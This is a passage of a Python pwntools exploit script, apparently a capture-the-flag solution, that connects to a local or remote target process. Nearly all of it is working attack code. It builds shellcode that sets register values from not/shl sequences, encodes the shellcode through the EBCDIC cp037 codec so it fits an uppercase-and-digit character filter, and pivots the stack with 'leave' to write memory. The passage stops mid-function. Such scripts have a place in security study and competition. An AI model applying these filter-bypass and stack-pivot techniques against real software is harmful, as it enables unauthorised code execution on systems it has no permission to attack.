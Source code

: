```python
        return process([exe] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

def encode_addr(addr):
    sc = b""
    bits_set = [False] * 0x20
    for i in range(0x20):
        num = 1 << i
        if addr & num:
            bits_set[i] = True

    for i in reversed(range(0x20)):
        if bits_set[i]:
            sc += asm("not ebp")
            sc += asm("shl ebp")
            sc += asm("not ebp")
        else:
            sc += asm("shl ebp")

    return sc

def encode_sc(sc_raw):
    ok_chars = string.ascii_uppercase + string.digits
    mapping = {}

    for x in ok_chars:
        mapping[x.encode("cp037")] = x

    print(sc_raw)
    out = ""
    for x in sc_raw:
        if p8(x) not in mapping.keys():
            print("Invalid opcode: ", hex(x))
            exit(0)

        out += mapping[p8(x)]

    return out.encode()

def change_esp(addr):
    sc = b""
    sc += encode_addr(addr)
    sc += asm("leave")

    return sc

def write_dword(val, off):
    print("Write: ", hex(val))
    sc = b""
    # prevent segfault
```